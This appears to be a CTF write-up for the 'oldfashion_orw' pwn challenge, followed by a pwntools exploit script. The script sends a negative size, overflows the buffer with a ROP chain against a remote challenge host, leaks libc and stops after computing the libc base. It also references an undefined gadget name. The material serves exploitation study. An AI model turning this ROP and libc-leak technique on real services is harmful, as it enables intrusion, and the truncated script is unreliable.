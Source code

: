 

# oldfashion_orw

This question is quite interesting. After some research, it was found that this is an ORW (Open, Read, Write) challenge to get the flag.

Initially, reading the number of bytes, changing a signed number to an unsigned number was needed, so filling in a negative number could achieve this.

However, since the flag file name is unknown, OGW (Open, Getdents, Write) to read the file name is required as well.

Additionally, a point to note is that glibc uses `open`, `read`, etc., implemented using `openat`, which is disabled by seccomp. Therefore, system call numbers are needed to implement these functions.

Moreover, it was observed that many other write-ups utilize the method of reading the flag name first and then reading the file content in a subsequent connection, but attempts to replicate this behavior remotely failed. Therefore, a new shellcode approach had to be adopted.

Exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process('./vuln')
sh = remote('chuj.top', 42614)
elf = ELF('./vuln')
libc = ELF('./libc-2.31.so')

pop_rdi_ret = 0x0401443
pop_rsi_r15_ret = 0x0401441
libc_pop_rdx_r12_ret = 0x011c371
libc_pop_rax_ret = 0x04a550
libc_syscall = 0x066229
bss_addr = 0x0404000

write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']

def gen_para_payload(para1: bytes, para2: bytes = None, para3: bytes = None) -> bytes:
    payload = b''
    payload += p64(pop_rdi_ret) + para1
    payload += p64(pop_rsi_r15_ret) + para2 + p64(0) if para2 else b''
    payload += p64(pop_rdx_r12_ret) + para3 + p64(0) if para3 else b''
    return payload

payload = b"A"*0x38
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_addr)
sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
sh.sendline(payload)
sh.recvuntil(b"done!\n")

write_addr = u64(sh.recv(6).ljust(8, b"\x00"))
print(hex(write_addr))

libc_base = write_addr - libc.sym['write']
```